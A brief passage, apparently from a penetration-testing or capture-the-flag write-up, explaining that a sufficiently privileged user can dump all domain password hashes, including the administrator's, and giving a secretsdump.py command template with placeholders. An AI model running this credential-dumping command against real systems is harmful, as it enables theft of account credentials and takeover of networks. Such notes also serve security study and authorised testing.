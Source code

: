 We could dump all hashes using ```secretsdump.py``` script, if our user have the privileges to retrieve all of the password hashes including the administator’s hash.
<br>

```
secretsdump.py <domain name>/<username>:<password>@<target ip>
```
